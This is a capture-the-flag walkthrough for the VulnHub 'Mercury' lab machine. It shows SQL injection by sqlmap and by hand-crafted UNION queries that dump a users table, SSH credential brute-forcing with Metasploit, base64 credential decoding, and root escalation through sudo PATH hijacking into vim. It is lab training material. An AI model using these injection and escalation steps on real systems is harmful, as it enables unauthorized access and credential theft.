







# The Planets: Mercury
https://www.vulnhub.com/entry/the-planets-mercury,544/

## Step 1: Discovery
### Command used: arp-scan<br>
<br>

```sh 
arp-scan --interface=ens33 --localnet

Interface: ens33, type: EN10MB, MAC: 00:0c:29:01:a5:1c, IPv4: 172.16.250.97
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)

172.16.250.91	08:00:27:dc:40:fb	PCS Systemtechnik GmbH
```

## Step 2: Port scan
<i>A full scan determined ports 22 and 8080 were open, and a hosts entry was created for the IP</i>

### Command used: nmap
<br>

```sh
nmap -T4 -sV -p22,8080 merc.vul

Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-13 17:00 CDT
Nmap scan report for merc.vul (172.16.250.91)
Host is up (0.00055s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http-proxy WSGIServer/0.2 CPython/3.8.2
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.92%I=7%D=4/13%Time=625747F9%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,135,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Wed,\x2013\x20Apr\x202
SF:022\x2022:00:26\x20GMT\r\nServer:\x20WSGIServer/0\.2\x20CPython/3\.8\.2
SF:\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nX-Frame-Options:\x2
SF:0DENY\r\nContent-Length:\x2069\r\nX-Content-Type-Options:\x20nosniff\r\
SF:nReferrer-Policy:\x20same-origin\r\n\r\nHello\.\x20This\x20site\x20is\x
SF:20currently\x20in\x20development\x20please\x20check\x20back\x20later\."
SF:)%r(HTTPOptions,135,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Wed,\x2013\x20A
SF:pr\x202022\x2022:00:26\x20GMT\r\nServer:\x20WSGIServer/0\.2\x20CPython/
SF:3\.8\.2\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nX-Frame-Opti
SF:ons:\x20DENY\r\nContent-Length:\x2069\r\nX-Content-Type-Options:\x20nos
SF:niff\r\nReferrer-Policy:\x20same-origin\r\n\r\nHello\.\x20This\x20site\
SF:x20is\x20currently\x20in\x20development\x20please\x20check\x20back\x20l
SF:ater\.")%r(RTSPRequest,1F4,"<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DT
SF:D\x20HTML\x204\.01//EN\"\n\x20\x20\x20\x20\x20\x20\x20\x20\"http://www\
SF:.w3\.org/TR/html4/strict\.dtd\">\n<html>\n\x20\x20\x20\x20<head>\n\x20\
SF:x20\x20\x20\x20\x20\x20\x20<meta\x20http-equiv=\"Content-Type\"\x20cont
SF:ent=\"text/html;charset=utf-8\">\n\x20\x20\x20\x20\x20\x20\x20\x20<titl
SF:e>Error\x20response</title>\n\x20\x20\x20\x20</head>\n\x20\x20\x20\x20<
SF:body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20response</h1>\n\x20
SF:\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400</p>\n\x20\x20\x20\
SF:x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20version\x20\('RTSP/
SF:1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code\x20expl
SF:anation:\x20HTTPStatus\.BAD_REQUEST\x20-\x20Bad\x20request\x20syntax\x2
SF:0or\x20unsupported\x20method\.</p>\n\x20\x20\x20\x20</body>\n</html>\n"
SF:)%r(FourOhFourRequest,A28,"HTTP/1\.1\x20404\x20Not\x20Found\r\nDate:\x2
SF:0Wed,\x2013\x20Apr\x202022\x2022:00:26\x20GMT\r\nServer:\x20WSGIServer/
SF:0\.2\x20CPython/3\.8\.2\r\nContent-Type:\x20text/html\r\nX-Frame-Option
SF:s:\x20DENY\r\nContent-Length:\x202366\r\nX-Content-Type-Options:\x20nos
SF:niff\r\nReferrer-Policy:\x20same-origin\r\n\r\n<!DOCTYPE\x20html>\n<htm
SF:l\x20lang=\"en\">\n<head>\n\x20\x20<meta\x20http-equiv=\"content-type\"
SF:\x20content=\"text/html;\x20charset=utf-8\">\n\x20\x20<title>Page\x20no
SF:t\x20found\x20at\x20/nice\x20ports,/Trinity\.txt\.bak</title>\n\x20\x20
SF:<meta\x20name=\"robots\"\x20content=\"NONE,NOARCHIVE\">\n\x20\x20<style
SF:\x20type=\"text/css\">\n\x20\x20\x20\x20html\x20\*\x20{\x20padding:0;\x
SF:20margin:0;\x20}\n\x20\x20\x20\x20body\x20\*\x20{\x20padding:10px\x2020
SF:px;\x20}\n\x20\x20\x20\x20body\x20\*\x20\*\x20{\x20padding:0;\x20}\n\x2
SF:0\x20\x20\x20body\x20{\x20font:small\x20sans-serif;\x20background:#eee;
SF:\x20color:#000;\x20}\n\x20\x20\x20\x20body>div\x20{\x20border-bottom:1p
SF:x\x20solid\x20#ddd;\x20}\n\x20\x20\x20\x20h1\x20{\x20font-weight:normal
SF:;\x20margin-bottom:\.4em;\x20}\n\x20\x20\x20\x20h1\x20span\x20{\x20font
SF:-size:60%;\x20color:#666;\x20font-weight:normal;\x20}\n\x20\x20\x20\x20
SF:table\x20{\x20border:none;\x20border-collapse:\x20collapse;\x20width:10
SF:0%;\x20}\n\x20\x20\x20\x20td,\x20th\x20{\x20vertical-align:");
MAC Address: 08:00:27:DC:40:FB (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 92.63 seconds
```

## Step 3: HTTP enumeration
### Command used: gobuster
<br>

```sh
gobuster dir --url http://merc.vul:8080 --wordlist /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://merc.vul:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/04/13 17:03:19 Starting gobuster in directory enumeration mode
===============================================================
/robots.txt           (Status: 200) [Size: 26]
                                              
===============================================================
2022/04/13 17:03:30 Finished
===============================================================
```

Browsing the URL in the browser didn't reveal anything, until we added text to the end, such as a * or /admin. This revealed an error page indicating Django was installed and DEBUG mode was enabled.<br><br>



Navigating to /mercuryfacts brings us to this page:<br><br>


Selecting "Load a fact" prints various facts about Mercury (there are 9!).<br><br>


Adding a special character to the URL to test for SQLi hints that injection is possible.<br><br>



## Step 4: SQL injection
### You can either manually try strings, or use a tool like SQLMap
<br>

### Command used: SQLMap
<br>

```sh
sqlmap -u http://merc.vul:8080/mercuryfacts/1 --answers="follow=Y" --batch

      ___
       __H__
 ___ ___[(]_____ ___ ___  {1.6.3#stable}
|_ -| . [(]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:08:46 /2022-04-13/

[18:08:46] [WARNING] you've provided target URL without any GET parameters (e.g. 'http://www.site.com/article.php?id=1') and without providing any POST parameters through option '--data'
do you want to try URI injections in the target URL itself? [Y/n/q] Y
[18:08:46] [INFO] testing connection to the target URL
got a 301 redirect to 'http://merc.vul:8080/mercuryfacts/1/'. Do you want to follow? [Y/n] Y
[18:08:47] [INFO] checking if the target is protected by some kind of WAF/IPS
[18:08:47] [CRITICAL] heuristics detected that the target is protected by some kind of WAF/IPS
are you sure that you want to continue with further target testing? [Y/n] Y
[18:08:47] [WARNING] please consider usage of tamper scripts (option '--tamper')
[18:08:47] [INFO] testing if the target URL content is stable
[18:08:47] [WARNING] URI parameter '#1*' does not appear to be dynamic
[18:08:48] [INFO] heuristic (basic) test shows that URI parameter '#1*' might be injectable (possible DBMS: 'MySQL')
[18:08:48] [INFO] testing for SQL injection on URI parameter '#1*'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[18:08:48] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[18:08:49] [WARNING] reflective value(s) found and filtering out
[18:08:50] [INFO] URI parameter '#1*' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable 
[18:08:50] [INFO] testing 'Generic inline queries'
[18:08:50] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[18:08:50] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[18:08:50] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[18:08:50] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[18:08:50] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[18:08:50] [INFO] URI parameter '#1*' is 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)' injectable 
[18:08:50] [INFO] testing 'MySQL inline queries'
[18:08:50] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[18:08:50] [WARNING] time-based comparison requires larger statistical model, please wait................ (done)
[18:09:01] [INFO] URI parameter '#1*' appears to be 'MySQL >= 5.0.12 stacked queries (comment)' injectable 
[18:09:01] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[18:09:11] [INFO] URI parameter '#1*' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[18:09:11] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[18:09:11] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[18:09:11] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[18:09:12] [INFO] target URL appears to have 1 column in query
[18:09:12] [INFO] URI parameter '#1*' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 45 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://merc.vul:8080/mercuryfacts/1 AND 6797=6797

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: http://merc.vul:8080/mercuryfacts/1 AND GTID_SUBSET(CONCAT(0x71627a7071,(SELECT (ELT(9938=9938,1))),0x717a626a71),9938)

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: http://merc.vul:8080/mercuryfacts/1;SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://merc.vul:8080/mercuryfacts/1 AND (SELECT 1826 FROM (SELECT(SLEEP(5)))NhVW)

    Type: UNION query
    Title: Generic UNION query (NULL) - 1 column
    Payload: http://merc.vul:8080/mercuryfacts/1 UNION ALL SELECT CONCAT(0x71627a7071,0x58544856484b794a724e426a65626178734a49774a7647435743574a494b4b4677476e4376616446,0x717a626a71)-- -
---
[18:09:12] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.6
[18:09:12] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 1 times
[18:09:12] [INFO] fetched data logged to text files under '/home/rockzo/.local/share/sqlmap/output/merc.vul'

[*] ending @ 18:09:12 /2022-04-13/
```

After trying various tables, we determine the "users" table has what we need.<br><br>

```sh
sqlmap -u http://merc.vul:8080/mercuryfacts/1 -D mercury -T users --dump --answers="follow=Y" --batch

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.6.3#stable}
|_ -| . [.]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 01:09:44 /2022-04-14/

[01:09:44] [WARNING] you've provided target URL without any GET parameters (e.g. 'http://www.site.com/article.php?id=1') and without providing any POST parameters through option '--data'
do you want to try URI injections in the target URL itself? [Y/n/q] Y
[01:09:44] [INFO] testing connection to the target URL
got a 301 redirect to 'http://merc.vul:8080/mercuryfacts/1/'. Do you want to follow? [Y/n] Y
[01:09:44] [INFO] checking if the target is protected by some kind of WAF/IPS
[01:09:44] [CRITICAL] heuristics detected that the target is protected by some kind of WAF/IPS
are you sure that you want to continue with further target testing? [Y/n] Y
[01:09:44] [WARNING] please consider usage of tamper scripts (option '--tamper')
[01:09:44] [INFO] testing if the target URL content is stable
[01:09:44] [WARNING] URI parameter '#1*' does not appear to be dynamic
[01:09:45] [INFO] heuristic (basic) test shows that URI parameter '#1*' might be injectable (possible DBMS: 'MySQL')
[01:09:46] [INFO] testing for SQL injection on URI parameter '#1*'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[01:09:46] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[01:09:46] [WARNING] reflective value(s) found and filtering out
[01:09:47] [INFO] URI parameter '#1*' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable 
[01:09:47] [INFO] testing 'Generic inline queries'
[01:09:47] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[01:09:47] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[01:09:47] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[01:09:47] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[01:09:47] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[01:09:47] [INFO] URI parameter '#1*' is 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)' injectable 
[01:09:47] [INFO] testing 'MySQL inline queries'
[01:09:47] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[01:09:47] [WARNING] time-based comparison requires larger statistical model, please wait................ (done)                                                        
[01:09:58] [INFO] URI parameter '#1*' appears to be 'MySQL >= 5.0.12 stacked queries (comment)' injectable 
[01:09:58] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[01:10:08] [INFO] URI parameter '#1*' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[01:10:08] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[01:10:08] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[01:10:08] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[01:10:09] [INFO] target URL appears to have 1 column in query
[01:10:09] [INFO] URI parameter '#1*' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 45 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://merc.vul:8080/mercuryfacts/1 AND 6556=6556

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: http://merc.vul:8080/mercuryfacts/1 AND GTID_SUBSET(CONCAT(0x71716a6271,(SELECT (ELT(6229=6229,1))),0x7171626271),6229)

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: http://merc.vul:8080/mercuryfacts/1;SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://merc.vul:8080/mercuryfacts/1 AND (SELECT 8047 FROM (SELECT(SLEEP(5)))EHYm)

    Type: UNION query
    Title: Generic UNION query (NULL) - 1 column
    Payload: http://merc.vul:8080/mercuryfacts/1 UNION ALL SELECT CONCAT(0x71716a6271,0x435259424878456d426258427374486f447243684a455879685959577761634e7354586441565a43,0x7171626271)-- -
---
[01:10:09] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.6
[01:10:09] [INFO] fetching columns for table 'users' in database 'mercury'
[01:10:09] [INFO] fetching entries for table 'users' in database 'mercury'
Database: mercury
Table: users
[4 entries]
+----+-------------------------------+-----------+
| id | password                      | username  |
+----+-------------------------------+-----------+
| 1  | johnny1987                    | john      |
| 2  | lovemykids111                 | laura     |
| 3  | lovemybeer111                 | sam       |
| 4  | mercuryisthesizeof0.056Earths | webmaster |
+----+-------------------------------+-----------+

[01:10:09] [INFO] table 'mercury.users' dumped to CSV file '/home/rockzo/.local/share/sqlmap/output/merc.vul/dump/mercury/users.csv'
[01:10:09] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 1 times
[01:10:09] [INFO] fetched data logged to text files under '/home/rockzo/.local/share/sqlmap/output/merc.vul'

[*] ending @ 01:10:09 /2022-04-14/
```

---

### Command used: none / browser URL strings

Using a <i>UNION</i> statement, we can determine the database name:

"http://merc.vul:8080/mercuryfacts/1 <b>union select database()/</b>"



Enumerating table names from <i>information_schema</i>:

"http://merc.vul:8080/mercuryfacts/1 <b>union select group_concat(table_name) from information_schema.tables where table_schema=database()/</b>"



Enumerating columns from <b>USERS</b> table:

"http://merc.vul:8080/mercuryfacts/1 <b>union select group_concat(column_name) from information_schema.columns where table_name='users'/</b>"



<i>Obviously</i>, we're looking for usernames and passwords:

"http://merc.vul:8080/mercuryfacts/1 <b>union select group_concat(username) from users/</b>"



"http://merc.vul:8080/mercuryfacts/1 <b>union select group_concat(password) from users/</b>"



## Step 5: SSH and root access
### Command used: msfconsole
<br>

Now that we have credentials, we could manually try each one, or be lazy and use the MSF auxiliary module].

```sh
msf6 auxiliary(scanner/ssh/ssh_login) > options

Module options (auxiliary/scanner/ssh/ssh_login):

   Name              Current Setting                  Required  Description
   ----              ---------------                  --------  -----------
   BLANK_PASSWORDS   false                            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                            no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none                             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   PASSWORD                                           no        A specific password to authenticate with
   PASS_FILE         /home/rockzo/temp/passwords.txt  no        File containing passwords, one per line
   RHOSTS            merc.vul                         yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT             22                               yes       The target port
   STOP_ON_SUCCESS   false                            yes       Stop guessing when a credential works for a host
   THREADS           1                                yes       The number of concurrent threads (max one per host)
   USERNAME                                           no        A specific username to authenticate as
   USERPASS_FILE                                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false                            no        Try the username as the password for all users
   USER_FILE         /home/rockzo/temp/users.txt      no        File containing usernames, one per line
   VERBOSE           true                             yes       Whether to print output for all attempts


msf6 auxiliary(scanner/ssh/ssh_login) > run

[*] 172.16.250.91:22 - Starting bruteforce
[-] 172.16.250.91:22 - Failed: 'john:johnny1987'
[!] No active DB -- Credential data will not be saved!
[-] 172.16.250.91:22 - Failed: 'john:lovemykids111'
[-] 172.16.250.91:22 - Failed: 'john:lovemybeer111'
[-] 172.16.250.91:22 - Failed: 'john:mercuryisthesizeof0.056Earths'
[-] 172.16.250.91:22 - Failed: 'laura:johnny1987'
[-] 172.16.250.91:22 - Failed: 'laura:lovemykids111'
[-] 172.16.250.91:22 - Failed: 'laura:lovemybeer111'
[-] 172.16.250.91:22 - Failed: 'laura:mercuryisthesizeof0.056Earths'
[-] 172.16.250.91:22 - Failed: 'sam:johnny1987'
[-] 172.16.250.91:22 - Failed: 'sam:lovemykids111'
[-] 172.16.250.91:22 - Failed: 'sam:lovemybeer111'
[-] 172.16.250.91:22 - Failed: 'sam:mercuryisthesizeof0.056Earths'
[-] 172.16.250.91:22 - Failed: 'webmaster:johnny1987'
[-] 172.16.250.91:22 - Failed: 'webmaster:lovemykids111'
[-] 172.16.250.91:22 - Failed: 'webmaster:lovemybeer111'
[+] 172.16.250.91:22 - Success: 'webmaster:mercuryisthesizeof0.056Earths' 'uid=1001(webmaster) gid=1001(webmaster) groups=1001(webmaster) Linux mercury 5.4.0-45-generic #49-Ubuntu SMP Wed Aug 26 13:38:52 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 1 opened (172.16.250.97:39587 -> 172.16.250.91:22 ) at 2022-04-13 18:46:02 -0500
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Logging in with the 'webmaster' credentials, we find the first flag: user_flag.txt

```sh
webmaster@mercury:~$ ls
mercury_proj  user_flag.txt
webmaster@mercury:~$ cat user_flag.txt 
[user_flag_8339915c9a454657bd60ee58776f4ccd]
```

Looking in the <i>mercury_proj</i> directory reveals "notes.txt"

```sh
webmaster@mercury:~$ cd mercury_proj/
webmaster@mercury:~/mercury_proj$ ls
db.sqlite3  manage.py  mercury_facts  mercury_index  mercury_proj  notes.txt
webmaster@mercury:~/mercury_proj$ cat notes.txt 
Project accounts (both restricted):
webmaster for web stuff - webmaster:bWVyY3VyeWlzdGhlc2l6ZW9mMC4wNTZFYXJ0aHMK
linuxmaster for linux stuff - linuxmaster:bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==
```

Using the echo command, we can convert the base64 strings to clear text:

```sh
webmaster@mercury:~/mercury_proj$ echo "bWVyY3VyeWlzdGhlc2l6ZW9mMC4wNTZFYXJ0aHMK" | base64 -d
mercuryisthesizeof0.056Earths
webmaster@mercury:~/mercury_proj$ echo "bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==" | base64 -d
mercurymeandiameteris4880km
```

After switching to the linuxmaster account using the decrypted password, we identify sudo privileges:

```sh
su linuxmaster

linuxmaster@mercury:/home/webmaster/mercury_proj$ sudo -ll
Matching Defaults entries for linuxmaster on mercury:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User linuxmaster may run the following commands on mercury:

Sudoers entry:
    RunAsUsers: root
    RunAsGroups: root
    Options: setenv
    Commands:
	/usr/bin/check_syslog.sh
linuxmaster@mercury:/home/webmaster/mercury_proj$ cat /usr/bin/check_syslog.sh 
#!/bin/bash
tail -n 10 /var/log/syslog
linuxmaster@mercury:/home/webmaster/mercury_proj$ ls -l /usr/bin/check_syslog.sh 
-rwxr-xr-x 1 root root 39 Aug 28  2020 /usr/bin/check_syslog.sh
```

This indicates that while the script is not writable, the file executes <i>tail</i> as root. To escalate privileges, we can link <i>vim</i> to <i>tail</i> and add the current path to the envrironment variables:

```sh
linuxmaster@mercury:~$ ln -s /usr/bin/vim tail
linuxmaster@mercury:~$ ls
tail
linuxmaster@mercury:~$ export PATH=$(pwd):$PATH
linuxmaster@mercury:~$ sudo --preserve-env=PATH /usr/bin/check_syslog.sh
```

Instead of the <i>tail</i> command being executed, <i>vim</i> has opened. Within vim, we can spawn /bin/bash, which will land us in a <b>root</b> shell:

```sh
: !/bin/bash
```

```sh
root@mercury:/home/linuxmaster# id
uid=0(root) gid=0(root) groups=0(root)
root@mercury:/home/linuxmaster#
```

From here, we can read the final flag: root_flag.txt

```sh
root@mercury:/home/linuxmaster# cd
root@mercury:~# ls
root_flag.txt
root@mercury:~# cat root_flag.txt 
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@/##////////@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@(((/(*(/((((((////////&@@@@@@@@@@@@@
@@@@@@@@@@@((#(#(###((##//(((/(/(((*((//@@@@@@@@@@
@@@@@@@@/#(((#((((((/(/,*/(((///////(/*/*/#@@@@@@@
@@@@@@*((####((///*//(///*(/*//((/(((//**/((&@@@@@
@@@@@/(/(((##/*((//(#(////(((((/(///(((((///(*@@@@
@@@@/(//((((#(((((*///*/(/(/(((/((////(/*/*(///@@@
@@@//**/(/(#(#(##((/(((((/(**//////////((//((*/#@@
@@@(//(/((((((#((((#*/((///((///((//////(/(/(*(/@@
@@@((//((((/((((#(/(/((/(/(((((#((((((/(/((/////@@
@@@(((/(((/##((#((/*///((/((/((##((/(/(/((((((/*@@
@@@(((/(##/#(((##((/((((((/(##(/##(#((/((((#((*%@@
@@@@(///(#(((((#(#(((((#(//((#((###((/(((((/(//@@@
@@@@@(/*/(##(/(###(((#((((/((####/((((///((((/@@@@
@@@@@@%//((((#############((((/((/(/(*/(((((@@@@@@
@@@@@@@@%#(((############(##((#((*//(/(*//@@@@@@@@
@@@@@@@@@@@/(#(####(###/((((((#(///((//(@@@@@@@@@@
@@@@@@@@@@@@@@@(((###((#(#(((/((///*@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@%#(#%@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@

Congratulations on completing Mercury!!!
If you have any feedback please contact me at SirFlash@protonmail.com
[root_flag_69426d9fda579afbffd9c2d47ca31d90]
```